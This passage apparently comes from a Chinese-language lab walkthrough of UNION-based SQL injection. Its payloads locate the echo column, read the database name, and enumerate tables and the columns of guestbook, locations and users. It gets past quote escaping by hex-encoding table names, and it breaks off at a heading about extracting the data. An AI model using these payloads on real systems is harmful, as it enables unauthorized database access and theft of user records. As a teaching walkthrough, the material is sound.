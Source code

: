 - 确定查询回显位置：

  `1 union select 1,2#`

![image-20211101193028916](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950810.png)

- `database()`查询当前的数据库

  `1 union select 111,database()#`

![image-20211101193521930](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950309.png)

- 获取数据库中的table

  `1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![image-20211102214358646](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950231.png)



##### ④获取表中的column

- 获取guestbook表中的字段：

`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook'#`

![image-20211101194028724](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950529.png)

由于单引号`'`被转义成了`\`，所以该语句无法正常执行。可以通过把guestbook转成16进制的方法绕过：

`guestbook=0x6775657374626F6F6B`

`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6775657374626F6F6B#`

![image-20211101194421275](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950397.png)

成功显示了表中字段。

- 获取locations表中的字段：

`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6c6f636174696f6e73#`

![image-20211102214616710](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950601.png)



- 获取users表中的字段：

同理，将id改为`1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273#`绕过转义：

![image-20211101194804475](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951663.png)



##### ⑤获得字段中的数据
